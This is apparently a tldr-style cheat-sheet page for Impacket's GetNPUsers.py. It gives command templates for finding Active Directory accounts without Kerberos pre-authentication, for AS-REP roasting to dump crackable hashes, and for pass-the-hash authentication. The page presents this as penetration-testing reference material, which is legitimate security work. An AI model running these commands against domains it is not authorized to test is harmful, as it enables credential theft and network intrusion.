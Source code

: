 ```yaml
---
title: "Enumerate AD Users - Find Roasting Targets | Free DevTools"
name: getnpusers.py
path: /freedevtools/tldr/common/getnpusers.py
canonical: "https://hexmos.com/freedevtools/tldr/common/getnpusers.py/"
description: "Enumerate Active Directory users with GetNPUsers.py to identify potential AS-REP roasting targets, enabling penetration testers to uncover security vulnerabilities. Free online tool, no registration required."
category: common
keywords:
- active directory enumeration
- as-rep roasting
- kerberos pre-authentication
- getnpusers.py impacket
- active directory hacking
- windows security auditing
- domain user enumeration
- network penetration testing
- ad security vulnerability scanning
- impacket exploit
features:
- Enumerate users with disabled Kerberos pre-authentication
- Perform AS-REP roasting attacks
- Dump crackable Kerberos hashes
- Authenticate with specified credentials
- Support pass-the-hash authentication
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# GetNPUsers.py

> Enumerate Active Directory accounts with Kerberos pre-authentication disabled, which may be susceptible to AS-REP roasting attacks.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Enumerate users with Kerberos pre-authentication disabled (default anonymous enumeration):

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -no-pass`

- Perform AS-REP roasting and dump crackable hashes for offline cracking:

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -no-pass -request`

- Authenticate with valid credentials (if anonymous binding is disabled):

`GetNPUsers.py {{domain}}/{{username}}:{{password}} -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}}`

- Use pass-the-hash authentication instead of a password:

`GetNPUsers.py {{domain}}/{{username}} -hashes {{LM_Hash}}:{{NT_Hash}} -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}}`

- Save the output to a file for further analysis:

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -request > {{path/to/output.txt}}`
